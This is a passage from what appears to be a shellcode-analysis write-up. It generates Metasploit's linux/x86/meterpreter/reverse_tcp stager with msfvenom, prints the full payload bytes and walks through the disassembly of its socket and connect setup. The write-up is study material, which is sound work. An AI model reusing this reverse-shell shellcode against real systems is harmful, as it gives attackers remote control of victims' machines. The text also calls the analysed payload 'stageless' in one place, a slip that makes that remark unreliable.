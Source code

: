 If you remember from our previous assignment, we used the following functions that were later converted to syscalls:

* int socket(int protocolFamily, int type, int protocol);
* int connect(int socket, struct sockaddr \*foreignAddress, unsigned int addressLength);
* int dup2(int oldfd, int newfd);
* int execve(const char \*filename, char \*const argv[],char \*const envp[]); 

They are all there. There are some differences between our simple shellcode and this elegant one. First, there are several optimizations, for example:

* Usage of `mul` instruction to clear registers
* Usage of `xchg` instruction to move the content of one register to another
* Usage of a loop structure for redirecting INPUT, OUTPUT and ERROR

Improvements apart, the essence of this shellcode is pretty much the same as ours.

### linux/x86/meterpreter/reverse_tcp
Now that we know what `linux/x86/shell_reverse_tcp`, why not looking at Meterpreter? Metasploit splits some of it payloads in Stageless and Staged categories. The first one corresponds to payloads that are delivered as a single chunk and you can identify them as `meterpreter_`. On the other hand, Staged payloads are delivered in parts. Initially the victim receives a small stage which then loads the following stages.

Since the stageless payload is humongous, I will analyse only the stalegess version.

```
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp -f c
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\x7f\x00\x00\x01\x68\x02\x00\x11\x5c"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```

Code analysis (highlights):

```
0:  6a 0a                   push   0xa
2:  5e                      pop    esi	;esi=0xa (PUSH-POP technique)
3:  31 db                   xor    ebx,ebx	;clear out ebx
5:  f7 e3                   mul    ebx	;clear eax
7:  53                      push   ebx	;store 0 on the stack
8:  43                      inc    ebx	;ebx=1
9:  53                      push   ebx	;store 1 on the stack
a:  6a 02                   push   0x2	;store 2 on the stack
c:  b0 66                   mov    al,0x66	;socketcall syscall number 0x66 in eax
e:  89 e1                   mov    ecx,esp	;point ecx to the parameters on the stack
;EAX=0x66 (socketcall)
;EBX=1 (socket)
;ECX -> 2/1/0 (parameters)

10: cd 80                   int    0x80		;call syscall (socket)
12: 97                      xchg   edi,eax  ;save the result of the syscall (file descriptor) in edi
13: 5b                      pop    ebx      ;ebx=2
14: 68 7f 00 00 01          push   0x100007f    ;IP
19: 68 02 00 11 5c          push   0x5c110002   ;PORT
1e: 89 e1                   mov    ecx,esp  ;ecx points to the parameters on the stack
```